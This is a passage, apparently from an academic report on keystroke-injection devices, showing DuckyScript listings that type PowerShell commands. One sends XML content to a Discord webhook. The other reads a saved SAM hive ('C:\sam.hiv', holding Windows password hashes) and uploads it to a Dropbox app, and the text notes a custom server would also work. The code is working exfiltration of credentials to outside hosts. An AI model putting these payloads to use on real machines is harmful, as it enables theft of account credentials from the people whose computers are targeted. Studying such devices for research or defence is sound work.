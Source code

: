 One example of sending an Extensible Markup Language (XML) object to a Discord webhook given the webhook address and the content for the XML object:
\begin{lstlisting}[caption={Send an XML object through PowerShell}, captionpos=b]
STRING $xmlObject = [xml]$xmlContent
ENTER
STRING $Payload = @{xml = $xmlObject}
ENTER
STRING $Json = @{content = $Payload | ConvertTo-Json } | ConvertTo-Json	
ENTER
STRING Invoke-RestMethod -Uri $Webhook -Method Post -Body $Json -ContentType 'application/json'
ENTER
\end{lstlisting}

This approach would also be possible with a custom server by replacing the webhook with the server address.

Another possibility is to use Dropbox apps. This requires a Dropbox account. Once logegd in to the app concolse, a new app can be created. Before generating the access token, the file.content.write permissions have to be given to ensure that file can actually be uploaded. From there the DuckyScript code looks like this;

\begin{lstlisting}[caption={Send any file to a Dropbox app}, captionpos=b]
STRINGLN $accessToken = "<DROPBOX_ACCESS_TOKEN>"
STRINGLN $file = "C:\sam.hiv"
STRINGLN $authHeader = @{Authorization = "Bearer $accessToken"}
STRINGLN $uploadUrl = "https://content.dropboxapi.com/2/files/upload"
STRINGLN $dropboxFilePath = "/omg-test"
STRINGLN $headers = @{}
STRINGLN $headers.Add("Authorization", "Bearer $accessToken")
STRINGLN $headers.Add("Dropbox-API-Arg", '{"path":"' + $dropboxFilePath + '","mode":"add","autorename":true,"mute":false}')
STRINGLN $headers.Add("Content-Type", "application/octet-stream")
STRINGLN $fileContent = [System.IO.File]::ReadAllBytes($file)
STRINGLN Invoke-RestMethod -Uri $uploadUrl -Headers $headers -Method Post -Body $fileContent
\end{lstlisting}



\subsection{Payloads}

\subsubsection{Register Email Forwarding}

